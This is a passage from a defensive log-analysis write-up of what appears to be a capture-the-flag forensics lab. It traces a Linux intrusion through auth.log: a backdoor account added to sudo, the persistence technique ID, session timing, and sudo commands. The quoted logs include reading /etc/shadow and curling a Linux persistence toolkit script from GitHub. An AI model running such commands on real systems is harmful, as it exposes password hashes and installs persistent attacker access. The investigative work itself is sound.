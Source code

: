 Next, using the command grep usermod auth.log, we found the following entries:
```bash
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```
These logs indicate that the user cyberjunkie was added to the sudo group and its shadow group, granting it elevated privileges on the server.

**Answer**: cyberjunkie

### Question 6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?
> [!TIP]
> If you have found the answer to Question 5, consult the MITRE ATT&CK enterprise matrix to determine the sub-technique ID under the persistence tactic.
   
The attacker created a new local user account (cyberjunkie) on the compromised host as part of their persistence strategy. According to the MITRE ATT&CK framework, this activity falls under T1136: Create Account, specifically the sub-technique T1136.001: Local Account, which involves creating local accounts to maintain access to a system.

![image](https://github.com/user-attachments/assets/453de1f8-b468-4ab8-b01b-1e7ca441745d)

**Answer**: T1136.001

### Question 7: What time did the attacker's first SSH session end according to auth.log?
From previous analysis, we identified that the attacker's manual login was assigned session number 37. Using the command `grep "session 37" auth.log`, we found the following entries:

```bash        
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

Based on these logs, session 37 was removed at `Mar 6 06:37:24`, indicating that the attacker's first SSH session ended at this time.

**Answer**: 2024-03-06 06:37:24

### Question 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
> [!TIP]
> Although auth.log is not typically used to track command executions like auditd, commands executed with sudo are logged in auth.log since the system needs to authenticate the account's privileges to grant root level permissions for that command. Search for the keyword "COMMAND" to find commands executed using sudo.

To identify the command executed with `sudo`, we searched for the keyword "COMMAND" in auth.log. Using the command `grep "COMMAND" auth.log` reveals the entries below:

```bash
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
From these logs, the command executed by the attacker to download the script using sudo is `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`, which is part of the Linux persistence toolkit.

**Answer**: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
